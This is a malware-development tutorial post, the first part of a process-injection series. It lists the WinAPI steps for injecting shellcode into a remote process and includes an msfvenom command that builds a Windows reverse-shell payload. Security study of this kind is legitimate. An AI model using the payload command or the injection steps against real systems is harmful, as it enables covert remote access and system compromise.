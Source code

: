 ```yaml
---
title: "Process Injection Part 1: Basic Remote Injection"
date: 19-12-2024 00:00:00 +0800
categories: [Malware Development, Process Injection]
tags: [maldev]
author: 0xB3L14L
description: The first part of this Process Injection series, where a simple injection will be demonstrated using the WinAPI functions VirtualAllocEx, WriteProcessMemory, and CreateRemoteThread. This serves as the foundation for future techniques
lang: en
permalink: /posts/Shellcode_Injection
image:
  path: /Media/Images/Process-Injection-Shellcode/Remote_Process_Injection.png
---
```


IThe **Process Injection** is a technique used to inject a payload into the memory of a process; this payload can be a shellcode or a DLL. This technique has three fundamental steps:

1. Allocate space in memory (buffer).
2. Write the payload to the buffer.
3. Execute the payload.

These three steps are used for local injection, and depending on the injection sub-technique, the steps will increase.

To perform injection into a remote process, the following steps must be taken:

1. Find the remote process. (***`CreateToolHelp32Snapshot`, `Process32First`, `Process32Next`***)
2. Obtain a handle to the remote process. (***`OpenProcess`***)
3. Allocate a buffer in the remote process. (***`VirtualAllocEx`***)
4. Write the shellcode to the buffer. (***`WriteProcessMemory`***)
5. Set execution permission "X" on the buffer. (***`VirtualProtectEx`***)
6. Execute the buffer. (***`CreateRemoteThread`***)

The shellcode to be used will be generated by msfvenom:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -a x64 -f c --platform windows
```

## **Finding the Remote Process**

To inject the shellcode, the PID of the remote process is needed. The PID is an arbitrary value, and each time a program is executed, it will have a different PID.

![hSnasphot](/Media/Images/Process-Injection-Shellcode/PIS-notepad-1.png)
_The first time notepad is executed, it has PID `6716`_

![hSnasphot](/Media/Images/Process-Injection-Shellcode/PIS-notepad-2.png)
_The second time notepad is executed, it now has PID `1036`_

